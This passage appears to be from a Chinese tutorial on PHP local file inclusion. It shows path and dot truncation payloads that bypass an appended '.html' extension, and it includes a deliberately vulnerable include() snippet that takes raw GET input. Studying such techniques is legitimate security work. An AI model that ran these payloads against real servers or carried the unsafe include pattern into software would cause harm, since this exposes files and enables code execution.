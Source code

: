 	?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././


#### 点号截断

条件：

	windows OS，点号需要长于256

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

EXP:

	?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................


## 远程文件包含漏洞
